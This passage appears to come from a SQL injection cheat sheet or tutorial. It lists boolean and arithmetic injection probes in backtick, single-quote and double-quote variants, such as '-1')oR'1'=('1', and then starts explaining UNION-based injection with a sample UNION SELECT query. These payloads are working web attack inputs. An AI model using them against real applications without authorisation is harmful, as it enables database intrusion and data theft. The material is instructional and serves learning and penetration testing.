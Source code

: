```
2`-`1
0`+`1
1`*`1
1`%`2
1`&`1`=`1
1`&&`2`=`1
-1`||`1`=`1
-1`oR`1`=`1
1`aND`1`=`1
1')>('0
2')-('1
0')+('1
1')*('1
1')%('2
1')&'1'=('1
1')&&'1'=('1
-1')||'1'=('1
-1')oR'1'=('1
1')aND'1'=('1
1")>("0
2")-("1
0")+("1
1")*("1
1")%("2
1")&"1"=("1
1")&&"1"=("1
-1")||"1"=("1
-1")oR"1"=("1
1")aND"1"=("1
1`)>(`0
2`)-(`1
0`)+(`1
1`)*(`1
1`)%(`2
1`)&`1`=(`1
1`)&&`1`=(`1
-1`)||`1`=(`1
-1`)oR`1`=(`1
1`)aND`1`=(`1

```

### SQL injection UNION attacks

When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the **UNION** keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection **UNION** attack.

The **UNION** keyword enables you to execute one or more additional **SELECT** queries and append the results to the original query. For example:
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
